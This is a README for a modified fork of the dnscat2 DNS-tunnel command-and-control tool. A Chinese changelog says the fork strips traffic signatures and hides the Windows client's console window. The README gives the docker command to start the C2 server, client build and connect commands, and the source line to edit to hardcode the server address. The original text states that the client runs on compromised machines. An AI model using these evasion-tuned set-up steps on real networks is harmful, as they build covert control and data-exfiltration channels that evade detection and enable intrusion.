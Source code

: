 
# 修改记录

1.去流量特征
2.windows客户端去参数化,去小黑窗。

服务端
```
docker run -p 5353:53/udp -it --rm thekingofduck/dnscat2 ruby ./dnscat2.rb aliyun.com
```

Linux/MacOS客户端
```
$ make clean && make
$ ./dnscat --dns server=1.1.1.1,port=5353
```
Windows:
```
code /client_win_modify/dnscat.c
line 420  system_dns = "111.222.333.444";
```
默认端口修改为5353,vs可正常编译


# Introduction

Welcome to dnscat2, a DNS tunnel that WON'T make you sick and kill you!

This tool is designed to create an encrypted command-and-control (C&C)
channel over the DNS protocol, which is an effective tunnel out of
almost every network.

This README file should contain everything you need to get up and
running! If you're interested in digging deeper into the protocol, how
the code is structured, future plans, or other esoteric stuff, check
out the doc/ folder.


# License

This is released under the BSD license. See [LICENSE.md](LICENSE.md) for
more information.

# Overview

dnscat2 comes in two parts: the client and the server.

The client is designed to be run on a compromised machine. It's written
in C and has the minimum possible dependencies. It should run just about
anywhere (if you find a system where it doesn't compile or run, please
file a ticket, particularly if you can help me get access to said
system).
